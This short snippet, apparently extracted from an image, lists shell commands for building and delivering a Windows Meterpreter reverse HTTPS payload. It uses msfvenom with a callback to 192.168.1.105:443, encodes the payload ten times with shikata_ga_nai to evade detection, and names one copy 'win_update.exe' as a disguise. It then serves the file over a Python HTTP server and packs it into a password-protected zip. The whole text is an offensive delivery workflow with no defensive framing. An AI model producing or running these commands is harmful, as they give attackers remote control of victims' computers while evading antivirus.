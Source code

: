 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.105 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.105 LPORT=443 -f exe -o ~/win_update.exe


python3 -m http.server 8080

http://192.168.1.105:8080/payload_encoded.exe



zip --password SuaSenhaForte payload_protegido.zip payload_encoded.exe


